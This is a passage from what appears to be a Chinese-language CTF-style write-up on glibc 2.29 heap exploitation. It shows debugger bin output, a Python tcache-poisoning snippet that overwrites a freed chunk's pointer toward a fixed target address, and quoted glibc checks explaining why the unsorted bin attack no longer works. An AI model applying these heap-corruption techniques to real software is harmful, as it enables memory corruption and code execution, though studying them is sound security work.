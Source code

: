 ```python
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x603260 —▸ 0x604540 —▸ 0x7ffff7fb0ca0 (main_arena+96) ◂— 0x603260 /* '`2`' */
smallbins
0x30: 0x603930 —▸ 0x7ffff7fb0cc0 (main_arena+128) ◂— 0x603930 /* '09`' */
largebins
empty
"""

# tcache attack
add(10, 0x108)
add(11, 0x58)
for i in range(7):
    add(12 + i, 0x68)
for i in range(7):
    free(12 + i)
free(3)
free(11)
for i in range(7):
    add(12 + i, 0x68)
add(3, 0x68)

target_addr = 0x602090

edit(3, 0x20, p64(0) + p64(0x61) + p64(target_addr))
add(12, 0x58)
add(13, 0x58)
```

### unsorted_bin_attack

​	在GLIBC-2.29中, `unsorted_bin_attack`已经成了过去时。

```c
bck = victim->bk;
size = chunksize (victim);
mchunkptr next = chunk_at_offset (victim, size);

if (__glibc_unlikely (size <= 2 * SIZE_SZ)
    || __glibc_unlikely (size > av->system_mem))
  malloc_printerr ("malloc(): invalid size (unsorted)");
if (__glibc_unlikely (chunksize_nomask (next) < 2 * SIZE_SZ)
    || __glibc_unlikely (chunksize_nomask (next) > av->system_mem))
  malloc_printerr ("malloc(): invalid next size (unsorted)");
if (__glibc_unlikely ((prev_size (next) & ~(SIZE_BITS)) != size))
  malloc_printerr ("malloc(): mismatching next->prev_size (unsorted)");
if (__glibc_unlikely (bck->fd != victim)
    || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
  malloc_printerr ("malloc(): unsorted double linked list corrupted");
if (__glibc_unlikely (prev_inuse (next)))
  malloc_printerr ("malloc(): invalid next->prev_inuse (unsorted)");
```
